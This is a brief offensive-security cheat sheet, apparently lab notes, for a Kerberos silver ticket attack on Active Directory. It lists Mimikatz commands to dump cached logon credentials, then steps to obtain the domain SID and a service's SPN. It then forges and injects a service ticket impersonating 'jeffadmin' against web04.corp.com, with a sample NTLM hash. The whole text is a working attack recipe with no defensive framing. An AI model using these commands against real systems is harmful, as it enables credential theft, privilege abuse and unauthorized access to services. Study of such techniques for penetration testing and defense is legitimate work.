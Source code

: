 1. **Extract cached AD credentials**

```powershell
.\mimikatz.exe  
privilege::debug  
sekurlsa::logonpasswords  
```
  
2. **Retrieve NTLM hash of the service account you want to forge a ticket for** 
  
3.  **Get Domain SID**

``` powershell
whoami /user  
```
  
4. **Get Target SPN**

```powershell
setspn -L iis_service  #(or use PowerView)  
```
  
5. **Forge Ticket (in Mimikatz) **

```powershell
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin  
```
  
6. **Find Tickets in Memory **

```powershell
klist
```